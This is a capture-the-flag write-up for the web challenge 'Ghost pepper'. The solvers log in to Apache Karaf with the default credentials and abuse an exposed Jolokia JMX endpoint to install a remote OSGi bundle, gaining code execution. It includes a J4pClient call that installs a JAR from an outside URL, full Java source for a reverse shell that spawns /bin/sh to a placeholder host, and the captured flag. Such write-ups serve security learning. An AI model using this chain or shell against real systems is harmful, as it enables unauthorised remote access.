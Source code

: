 # Ghost pepper (web, 125p, 78 solved)


In the challenge we get a link to webpage which requests Basic Auth from us.
As a hint the page says `karaf`.

Karaf is OSGi provider, and coincidentally the default user/password for the web interface is `karaf:karaf`.

Now that we passed the authentication, we try to look around, but everything returns 404.

We guessed that maybe the challenge name is some kind of hint.
Ghost pepper is otherwise known as `jolokia`, and this happens to be a name of Java JMX-over-HTTP service.

We confirmed this by checking `/jolokia` endpoint, which returned some data.

Exposing JMX is usually a bad idea because it's always at least some infoleak.
Here we've got OSGi running there as well, and it seems there were some JMX Managed Beans from Karaf exposed as well.

OSGi is a Java platform which allows managing lifecycle of application components at runtime, without the need to restart the app.
You can add/remove/substitute a component at runtime, deploy multiple versions etc, all while the app is running.

From our perspective there is one particularly intersting operation -> installing and starting a new component.

We can list all beans and operations they provide at  `/jolokia/list`.

JMX Bean `org.apache.karaf:name=root,type=bundle` provides `install(java.lang.String, boolean)` operation, where the first argument is URL for the JAR file containing the component, and boolean specifies if it should be automatically started.

We can run this with:

```java
public static void main(String[] args) throws Exception {
    J4pClient j4pClient = J4pClient.url("http://111.186.63.207:31337/jolokia/").user("karaf").password("karaf").build();
    J4pExecRequest req = new J4pExecRequest("org.apache.karaf:name=root,type=bundle", "install(java.lang.String, boolean)", "http://our.url/helloworld-1.0.0.jar", true);
    J4pExecResponse resp = j4pClient.execute(req);
    System.out.println(resp.getValue().toString());
}
```

Now if we provide some interesting component to run, we should get a nice RCE.
We went ahead with some stolen and modified Java Reverse Shell in OSGi bundle format:

```java
public class Activator implements BundleActivator {

    public void start(BundleContext context) {
        try {
            try {
                String host = "our.ip";
                int port = 80;
                Socket s = new Socket(host, port);
                String cmd = "/bin/sh";
                Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
                InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
                OutputStream po = p.getOutputStream(), so = s.getOutputStream();
                while (!s.isClosed()) {
                    while (pi.available() > 0)
                        so.write(pi.read());
                    while (pe.available() > 0)
                        so.write(pe.read());
                    while (si.available() > 0)
                        po.write(si.read());
                    so.flush();
                    po.flush();
                    Thread.sleep(50);
                }
                p.destroy();
                s.close();
            } catch (Exception e) {
                e.printStackTrace();
            }
        } catch (Exception e) {

        }
    }

    public void stop(BundleContext context) {
        System.out.println("Goodbye World!");
    }

}
```

One tricky part was that we initially used some random port number, and it didn't work.
We were afraid there is some mitigation in place and we'll need to exfiltrate the flag blindly somehow.
But we realised that they did download the bundle, so at least 80 and 8080 ports are not blacklisted.

Once we get a reverse shell we can read the flag: `flag{DOYOULOVEJOLOKIA?ILOVEITVERYMUCH}`
